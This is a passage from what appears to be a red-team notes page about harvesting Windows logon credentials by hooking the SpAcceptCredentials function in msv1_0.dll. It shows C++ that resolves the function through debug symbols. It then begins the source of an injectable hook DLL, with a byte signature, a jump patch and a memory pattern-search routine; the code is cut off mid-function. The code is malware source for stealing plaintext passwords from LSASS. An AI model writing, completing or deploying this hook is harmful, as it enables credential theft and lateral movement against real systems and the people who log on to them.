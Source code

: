 ![](../../.gitbook/assets/LsaApLogonUserEx2.gif)

## SymFromName

It's possible to resolve the `SpAcceptCredentials` function address if we have access to debugging symbols like so:

```cpp
HMODULE targetModule = LoadLibraryA("msv1_0.dll");
PCSTR symbolName = "msv1_0!SpAcceptCredentials";
ULONG64 buffer[(sizeof(SYMBOL_INFO) + MAX_SYM_NAME * sizeof(TCHAR) + sizeof(ULONG64) - 1) /	sizeof(ULONG64)] = {};
PSYMBOL_INFO symbol = (PSYMBOL_INFO)buffer;
symbol->SizeOfStruct = sizeof(SYMBOL_INFO);
symbol->MaxNameLen = MAX_SYM_NAME;
SymSetOptions(SYMOPT_EXACT_SYMBOLS);
SymInitialize(GetCurrentProcess(), "C:\\programdata\\dbg\\sym", TRUE);
SymFromName(GetCurrentProcess(), symbolName, symbol);
```

![](<../../.gitbook/assets/image (484).png>)

## Code

{% code title="SpAcceptCredentialsHook.dll" %}
```cpp
#include "stdafx.h"
#include <iostream>
#include <Windows.h>
#define SECURITY_WIN32
#include <Sspi.h>
#include <ntsecapi.h>
#include <ntsecpkg.h>

using _SpAcceptCredentials = NTSTATUS(NTAPI *)(SECURITY_LOGON_TYPE LogonType, PUNICODE_STRING AccountName, PSECPKG_PRIMARY_CRED PrimaryCredentials, PSECPKG_SUPPLEMENTAL_CRED SupplementalCredentials);
char startOfPatternSpAccecptedCredentials[] = { 0x48, 0x83, 0xec, 0x20, 0x49, 0x8b, 0xd9, 0x49, 0x8b, 0xf8, 0x8b, 0xf1, 0x48 };
char bytesToPatchSpAccecptedCredentials[12] = { 0x48, 0xb8 };
PVOID patternStartAddressOfSpAccecptedCredentials = NULL;
PVOID addressOfSpAcceptCredentials = NULL;
char bytesToRestoreSpAccecptedCredentials[12] = { 0 };
void installSpAccecptedCredentialsHook();

PVOID GetPatternMemoryAddress(char *startAddress, char *pattern, SIZE_T patternSize, SIZE_T searchBytes)
{
	unsigned int index = 0;
	PVOID patternAddress = NULL;
	char
		*patternByte = 0,
		*memoryByte = 0;
	do
	{
		if (startAddress[index] == pattern[0])
		{
			for (size_t i = 1; i < patternSize; i++)
			{
				*(char *)&patternByte = pattern[i];
				*(char *)&memoryByte = startAddress[index + i];

				if (patternByte != memoryByte)
				{
```